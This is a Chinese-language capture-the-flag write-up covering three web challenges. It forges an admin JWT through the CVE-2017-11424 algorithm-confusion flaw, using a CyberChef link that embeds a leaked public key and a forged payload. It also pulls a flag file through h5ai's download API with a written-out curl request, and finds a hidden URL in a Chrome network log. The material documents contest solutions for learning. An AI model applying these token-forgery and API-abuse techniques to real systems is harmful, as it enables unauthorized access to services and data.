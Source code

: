 用 `python jwt vulnerability` 为关键字搜索了解相关资料，尝试把 `alg` 改成 `none` ，经过测试~~和观察题目通过人数~~推断行不通。

深入搜索发现 [CVE-2017-11424](https://nvd.nist.gov/vuln/detail/CVE-2017-11424) 符合我们的利用条件。但是我们还缺少服务器的 public key，可以通过是读 FastAPI 文档知道网站会在 `/docs` 目录下自动生成 API 文档~~或者使用 [webdirscan
](https://github.com/TuuuNya/webdirscan) 之类的工具扫描网站目录~~，然后从文档里的 `debug` 接口获得公钥。

在 [CyberChef](https://gchq.github.io/CyberChef/#recipe=JWT_Decode(/disabled)JWT_Sign('-----BEGIN%20RSA%20PUBLIC%20KEY-----%5CnMIICCgKCAgEAn/KiHQ%2B/zwE7kY/Xf89PY6SowSb7CUk2b%2BlSVqC9u%2BR4BaE/5tNF%5CneNlneGNny6fQhCRA%2BPdw1UJSnNpG26z/uOK8%2BH7fMb2Da5t/94wavw410sCKVbvf%5Cnft8gKquUaeq//tp20BETeS5MWIXp5EXCE%2BlEdAHgmWWoMVMIOXwaKTMnCVGJ2SRr%5Cn%2BxH9147FZqOa/17PYIIHuUDlfeGi%2BIu7T6a%2BQZ0tvmHL6j9Onk/EEONuUDfElonY%5CnM688jhuAM/FSLfMzdyk23mJk3CKPah48nzVmb1YRyfBWiVFGYQqMCBnWgoGOanpd%5Cn46Fp1ff1zBn4sZTfPSOus/%2B00D5Lxh6bsbRa6A1vAApfmTcu026lIb7gbG7DU1/s%5CneDId9s1qA5BJpzWFKO4ztkPGvPTUok8hQBMDaSH1JOoFQgfJIfC7w2CQe%2BKbodQL%5Cn3akKQDCZhcoA4tf5VC6ODJpFxCn6blML5cD6veOBPJiIk8DBRgmt2AHzOUju%2B5ns%5CnQcplOVxW5TFYxLqeJ8FPWqQcVekZ749FjchtAwPlUsoWIH0PTSun38ua8usrwTXb%5CnpBlf4r0wz22FPqaecvp7z6Rj/xfDauDGDSU4hmn/TY9Fr%2BOmFJPW/9k2RAv7KEFv%5CnFCLP/3U3r0FMwSe/FPHmt5fjAtsGlZLj%2BbZsgwFllYeD90VQU8Ds%2BKkCAwEAAQ%3D%3D%5Cn-----END%20RSA%20PUBLIC%20KEY-----%5Cn','HS256')&input=eyJzdWIiOiAiYWRtaW4iLCJleHAiOiAyNjA0NzQxMzgzfQ) 上利用公钥给自己的 payload 加密 `{"sub": "admin","exp": 2604741383}` 这里的 exp 可以随便填个不会过期的数字了，然后提交得到 `flag{just_A_simple_Json_Web_T0ken_exp1oit_xxxxxx}`

漏洞的原理可以参考 [Critical vulnerabilities in JSON Web Token libraries](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

## 超简易的网盘服务器

通过观察 dockerfile 发现小 c 把 h5ai 的文件复制到 `/Public` 目录下：

```sh
# dockerfile
cp -rp /var/www/html/_h5ai /var/www/html/Public/_h5ai
```

而在 nginx 配置中没有限制 php 的访问，所以我们可以直接访问 php 文件调用 h5ai 的[下载 API](https://github.com/lrsjng/h5ai/blob/master/src/_h5ai/private/php/core/class-api.php#L23)

```sh
curl 'http://202.38.93.111:10120/_h5ai/public/index.php' --data-raw 'action=download&as=flag.txt.tar&type=php-tar&baseHref=%2F&hrefs=&hrefs%5B0%5D=%2Fflag.txt' --output -

# flag.txt
# 0000755 0000000 0000000 00000000030 13744647043 007466  0
# ustar 00
# flag{super_secure_cloud}
```

## 超安全的代理服务器（部分）

使用 chrome 访问这个地址 `chrome://net-export/` 点击开始记录日志之后刷新一下网站，然后分析记录下来的日志，搜索一下很容易就能找到这条可疑的日志，访问地址得到 `flag{d0_n0t_push_me}`

```json
{
  "params": {
    "headers": [
      ":method: GET",
      ":scheme: https",
      ":authority: 146.56.228.227",
      ":path: /8a71e1d0-67e7-4813-bc96-dc03b425d392"
    ],
    "id": 1,
    "promised_stream_id": 2
  },
  "phase": 0,
  "source": { "id": 119026, "start_time": "137004112", "type": 9 },
  "time": "137004129",
  "type": 206
}
```
